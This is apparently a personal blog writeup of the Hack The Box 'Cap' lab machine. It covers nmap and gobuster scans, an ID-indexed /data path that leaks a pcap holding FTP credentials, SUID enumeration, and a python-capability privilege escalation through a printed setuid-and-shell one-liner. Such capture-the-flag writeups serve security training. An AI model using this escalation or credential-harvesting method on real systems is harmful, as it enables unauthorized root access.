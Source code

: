 ```yaml
---
layout: post
title: Hack The Box - Cap
subtitle: Hack the box Cap machine writeup
category: writeup
thumbnail-img: /assets/img/writeup/HTB/cap/result.png
tags: [writeup, hackthebox, cap, linux]
author: Hong
---
```

![result](/assets/img/writeup/HTB/cap/result.png)
# nmap
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Fri, 23 Aug 2024 00:38:15 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 23 Aug 2024 00:38:10 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 23 Aug 2024 00:38:10 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
```
# gobuster
```
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17362]
/netstat              (Status: 200) [Size: 28308]
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/2]
```
nothing special with gobuster..  
But I noticed the directory path in /data/ changes with ID.  
For example, I downloaded pcap files for /data/1 and /data/2.  
# wireshark
I looked up /data/0 and downloaded the packet.  
I found the user credentials in FTP stream.  
![wireshark](/assets/img/writeup/HTB/cap/wireshark.png)
**nathan:Buck3tH4TF0RM3!**  
I logged in to the FTP service using the credentials and got the user flag.  
And since the SSH also uses the same password, I moved to SSH.  
# SUID enum
I couldn't get information from `sudo -l`  
I searched for SUID files like below.  
```
nathan@cap:~$ find / -type f -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```
I went through them, but ended up with fruitless result.  
I decided to use a tool here.  
# python
After executing linPeas in the target machine, I found it has a python capability problem.  
[python capability](https://gtfobins.github.io/gtfobins/python/#capabilities) 

`python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`  
The root shell will be opened with the command above.

# lesson learned
- capability problem can be easily solved by referencing gtfobins.
- linpeas searches for misconfigurations. However, it cannot be used in OSCP exam. [Check this](https://www.reddit.com/r/oscp/comments/mw4idk/heads_up_dont_use_linpeas_on_the_exam/)
